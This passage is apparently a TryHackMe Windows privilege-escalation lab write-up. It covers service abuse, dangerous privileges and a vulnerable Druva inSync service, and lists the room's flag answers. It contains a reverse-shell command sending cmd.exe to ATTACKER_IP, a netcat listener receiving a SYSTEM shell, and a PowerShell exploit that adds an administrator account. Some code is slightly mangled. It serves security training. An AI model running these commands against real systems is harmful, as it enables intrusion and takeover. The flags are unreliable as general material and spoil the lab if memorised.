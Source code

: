 ```
```
C:\> sc stop THMService
C:\> sc start THMService
```
And we will receive a shell back in our attacker's machine with SYSTEM privileges:
```
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```
## Answer the questions below
1: Get the flag on svcusr1's desktop. `THM{AT_YOUR_SERVICE}`

2: Get the flag on svcusr2's desktop. `THM{QUOTES_EVERYWHERE}`

3: Get the flag on the Administrator's desktop. `THM{INSECURE_TRY_TO_DO}`

# Task 6 Abusing dangerous privileges `THM{SEFLAGPRIVILEGE}`
SeBackup / SeRestore
SeTakeOwnership
SeImpersonate / SeAssignPrimaryToken
Attacker Machine\Your Machine
```
nc -lvnp 4442
ip given by tryhackme
site: http://ip given by tryhackme go to the site and run this command
c:\tools\RogueWinRM\RogueWinRM.exe -p “C:\tools\nc64.exe” -a “-e cmd.exe ATTACKER_IP 4442”
```

# Task 7 Abusing vulnerable software `THM{EZ_DLL_PROXY_4ME}`

## Powershell:
```
ErrorActionPreference = “Stop”
$cmd = “net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add”
$s = New-Object System.Net.Sockets.Socket( [System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp ) $s.Connect(“127.0.0.1”, 6064)
$header = [System.Text.Encoding]::UTF8.GetBytes(“inSync PHC RPCW[v0002]”) $rpcType = [System.Text.Encoding]::UTF8.GetBytes(“$([char]0x0005)`0`0`0”) $command = [System.Text.Encoding]::Unicode.GetBytes(“C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd”); $length = [System.BitConverter]::GetBytes($command.Length);
$s.Send($header) $s.Send($rpcType) $s.Send($length) $s.Send($command)
```
## Command Prompt:
```
net user pwnd
Note:remmina change user
type C:\Users\Administrator\Desktop\flag.txt
```

# Task 8 Tools of the Trade
Several scripts exist to conduct system enumeration in ways similar to the ones seen in the previous task. These tools can shorten the enumeration process time and uncover different potential privilege escalation vectors. However, please remember that automated tools can sometimes miss privilege escalation.
Below are a few tools commonly used to identify privilege escalation vectors. Feel free to run them against any of the machines in this room and see if the results match the discussed attack vectors.

## WinPEAS
```